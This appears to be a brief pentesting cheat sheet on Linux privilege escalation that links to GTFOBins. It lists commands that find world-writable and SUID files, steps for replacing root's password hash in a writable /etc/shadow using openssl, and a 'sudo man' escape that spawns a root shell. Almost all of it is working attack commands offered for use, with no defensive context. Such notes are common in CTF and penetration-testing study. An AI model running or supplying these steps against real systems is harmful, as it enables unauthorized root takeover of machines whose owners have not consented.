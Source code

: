 # Privilege Escalation [gtfobins](https://gtfobins.github.io/)

- __1.find / -not -type l -perm -o+w__
- __2.find /  -perm -u=s -type f 2>/dev/null__

- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__
     

 # sudo -l
- __1.(root) NOPASSWD: /usr/bin/man__
    - __Type this `sudo man ls` it will display document of the ls__
    - __In the document itself `type !/bin/bash` you will get the root shell__
    - __To read the content of the file you can use `man <file_name>`__
